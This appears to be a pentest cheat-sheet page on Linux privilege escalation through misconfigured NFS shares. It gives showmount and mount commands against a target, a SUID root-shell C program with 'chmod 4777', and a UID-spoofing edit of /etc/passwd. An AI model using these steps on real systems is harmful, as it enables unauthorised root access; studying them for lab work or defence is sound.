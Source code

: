 # NFS Share/Unmounted Filesystem

## Overview

* if you find that a machine has a NFS share you might be able to use that to escalate privileges, depending on how it is configured

## If Already on Target System

```
mount -l
cat /etc/fstab
```

## First, Check if the Target Machine has any NFS Shares

```bash
showmount -e 192.168.1.101
```

## If it Does, then Mount it to the Attacking Filesystem

```bash
mount 192.168.1.101:/foldername ~/tmp/
```

* if that succeeds then you can go to /tmp/share
* might be some interesting stuff there, but even if there isn't you might be able to exploit it
* ff you have write privileges you can create files
* test if you can create files, then check with your low-priv shell what user has created that file
* if it says that it is the root-user that has created the file it is good news
* then you can create a file and set it with suid-permission from your attacking machine, And  execute it with your low privilege shell
* this code can be compiled and added to the share
* before executing it by your low-priv user make sure to set the suid-bit on it

```bash
chmod 4777 exploit
```

* then this

```bash
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
setuid(0);
system("/bin/bash");
return 0;
}
```

## How to Mount a File System

```bash
# 1 way
mount -l
cat /etc/fstab

# for older file systems, "-o nolock"
# lets say we find /home with scanning
sudo mount -o nolock 10.10.10.10:/home ~/local_path/

# if a file is only viewable/etc by a specific user, find the UUID of the user
# by checking file permissions, then create a new user on your machine that
# has that UUID so the file can be viewed
# use the commmand below to change the UUID of the new user you just created,
# then switch users
sudo sed -i -e 's/old_uuid/new_uuid/g' /etc/passwd
```

## Additional Resources

* [https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-linux](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-linux)
* [https://www.errno.fr/nfs_privesc.html](https://www.errno.fr/nfs_privesc.html) (priv esc)
